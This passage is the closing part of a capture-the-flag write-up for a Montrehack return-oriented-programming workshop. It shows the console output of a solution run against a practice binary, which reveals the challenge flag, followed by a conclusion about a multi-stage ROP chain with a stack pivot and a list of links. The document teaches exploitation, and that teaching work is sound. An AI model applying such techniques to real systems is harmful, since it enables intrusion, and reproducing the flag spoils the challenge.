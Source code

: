 ```bash
$ ./3.py
=== ROP/03: Solution ===

[+] Starting local process '../bin/motd_v0.3': pid 16457
[+] Receiving all data: Done (577B)
[*] Process '../bin/motd_v0.3' stopped with exit code 0 (pid 16457)
motd daemon v0.3 (c) 2019 BetterSoft
    Now with 100% less system!

=> How may I help you today?
    1 - View message of the day
    2 - Change message of the day
    3 - Rate message of the day
    4 - Exit
>
=> Which message of the day? (1-3)
> => Type in the new message of the day please:
>
=> How may I help you today?
    1 - View message of the day
    2 - Change message of the day
    3 - Rate message of the day
    4 - Exit
>
=> Which message of the day? (1-3)
> => @ Rating? (out of 10)
> Thank you! Your opinion matters to us.
FLAG-{D_d_D_dR0P_+h3_rOP_GuRu}
```

## Conclusion

This challenge was a lot more difficult that the other two challenges. It
demonstrated a complex, multi-stage ROP chain with a stack pivot to execute an
arbitrary shellcode. The goal was to give something challenging to participants
experienced in return oriented programming and highlight how complex real world
exploits can get.

-----

### Resources

* [Montrehack Workshop: Slides and Presentation (Video)][presentation]
* [Montrehack Workshop: Solutions for challenge 1 & 2 (Video)][solutions]
* [Slides on Github][slides]

[presentation]: https://www.twitch.tv/videos/384854978 "Presentation of Slides"
[solutions]: https://www.twitch.tv/videos/384854977 "Presentation of Solutions"
[slides]: https://github.com/alxbl/montrehack-rop101/blob/master/slides_final.pdf "Slides PDF"



[1]: https://segfault.me/2019/03/03/montrehack-writeups-motd-v0-1/ "Write-up for motd_v0.1"
[2]: https://segfault.me/2019/04/20/montrehack-writeups-motd-v0-2/ "Write-up for motd_v0.2"
[m]: https://montrehack.ca "Montrehack Official Website"
[src]: https://github.com/alxbl/montrehack-rop101 "ROP 101: Sources & Solutions"
[man]: http://man7.org/linux/man-pages/man2/mprotect.2.html "Manual Pages for mprotect"
